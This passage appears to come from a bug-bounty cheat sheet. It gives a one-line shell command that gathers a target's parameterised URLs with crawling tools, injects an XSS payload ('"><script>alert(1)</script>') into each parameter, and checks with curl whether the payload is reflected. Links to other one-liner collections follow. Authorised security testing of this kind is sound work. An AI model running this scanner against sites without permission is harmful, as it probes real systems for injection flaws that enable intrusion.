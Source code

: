 
## **15. One-Liner for XSS**
```bash
echo target.com | (gau || hakrawler || waybackurls || katana) | grep '=' | qsreplace '"><script>alert(1)</script>' | while read -r host; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31mVulnerable\033[0m"; done
```

---

## **Resources**
- [KingOfBugBountyTips](https://github.com/OfJAAH/KingOfBugBountyTips)
- [Awesome Oneliner Bug Bounty](https://github.com/dwisiswant0/awesome-oneliner-bugbounty)
- [Oneliner Bug Bounty](https://github.com/twseptian/oneliner-bugbounty)
